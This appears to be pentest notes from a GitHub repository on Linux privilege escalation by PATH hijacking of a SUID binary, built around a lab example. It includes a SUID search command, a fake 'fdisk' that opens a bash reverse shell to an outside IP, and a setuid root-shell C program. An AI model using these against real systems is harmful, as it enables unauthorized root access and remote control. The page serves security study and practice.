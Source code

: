 # PATH Environment Variable
The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but **only specifies the program name**, rather than its **full (absolute) path**, the shell will search the PATH directories until it is found.

Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

There are 2 prerequisites for this privilege escalation: 
- Vulnerable files must have a **SUID/SGID** with the owner being **root**.
Find SUID/SGID files on the target:

```console
┌─[kimkhuongduy@drgon]─[~/Documents/Github/template/privilege escalation/linux]
└──╼ $find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwsr-sr-x 1 root staff 6883 May 14 2017 /bin/sysinfo
...
```
- This binary file/program tries to execute another program, but only specifies the program name, rather than its full (absolute) path.
If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string. 

We can run **strings**, **strace**, **ltrace** on the executable file to to see how the program is executing.
```console
$ strings /path/to/file
$ ltrace <command>
$ strace -v -f -e execve <command> 2>&1 | grep exec
theseus@ubuntu:/$ ltrace sysinfo
...[snip]...
popen("fdisk -l", "r")                           = 0x55e43e4e9280                 
fgets(fdisk: cannot open /dev/loop0: Permission denied
fdisk: cannot open /dev/loop1: Permission denied
fdisk: cannot open /dev/loop2: Permission denied
fdisk: cannot open /dev/loop3: Permission denied                                                   
fdisk: cannot open /dev/loop4: Permission denied
...[snip]...
```
**popen** is another way to open a process on Linux. The binary is making a call to **fdisk**, which is fine, except that it is doing so without specifying the full path. This leave the binary vulnerable to path hijacking.
## Exploitation
### Method 1:
```console
theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.5/8888 0>&1' > fdisk
theseus@ubuntu:/dev/shm$ chmod +x fdisk
```
Don't forget to create listener on local machine
```console
┌─[✗]─[kimkhuongduy@drgon]─[~/Documents/Github/template]
└──╼ $nc -nlvp 8888
listening on [any] 8888 ...

```
### Method 2:
Create a file **fdisk.c** in directory */dev/shm* with the following contents:
```console
int main() {
    setuid(0);
    system("/bin/bash -p");
}
```
*parameter **-p** options to use the Privileged mode (mining SUID bit)*

Compile **fdisk.c** into a file called **fdisk**:
```console
$ gcc -o fdisk fdisk.c
```
Then
```console
theseus@ubuntu:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH                  
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@ubuntu:/dev/shm$ sysinfo
```
